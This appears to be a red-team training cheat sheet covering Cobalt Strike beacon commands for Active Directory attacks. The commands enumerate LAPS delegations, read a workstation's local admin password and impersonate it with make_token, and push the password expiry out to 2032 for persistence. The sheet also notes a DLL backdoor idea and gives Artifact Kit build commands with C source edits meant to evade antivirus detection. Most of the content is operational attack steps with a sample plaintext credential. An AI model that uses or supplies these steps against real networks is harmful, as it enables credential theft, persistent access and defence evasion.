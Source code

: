 ```bash

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1108
DEV\Support Engineers
# or
beacon> powershell-import C:\Tools\LAPSToolkit\LAPSToolkit.ps1
beacon> powershell Find-LAPSDelegatedGroups
```

### Read

```bash
beacon> powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd
beacon> make_token .\LapsAdmin 1N3FyjJR5L18za
beacon> ls \\wkstn-1\c$
```

### Password Expiration

- https://www.epochconverter.com/ldap

> 136257686710000000 = GMT: Wednesday, 13 October 2032 15:44:31

```bash
beacon> powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
beacon> powershell Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose
```

### LAPS Backdoor

Modify .dll and add backdoor to them.

## Antivirus

> Check with `Get-MpThreatDetection`


### Artifact Kit

> You should learn that

```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact
./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts
```

```c
//Edit patch.c line 114
for (int x = 0; x < length; x++) {
    char* a = (char *)ptr + x;
    char* b = (char *)buffer + x;
    // random
    GetTickCount();
    *a = *b ^ key[x % 8];
}

//Open bypass-pipe.c and edit code line # 130
sprintf(pipename, "%c%c%c%c%c%c%c%c%calux\\crto", 92, 92, 46, 92, 112, 105, 112, 101, 92);
```
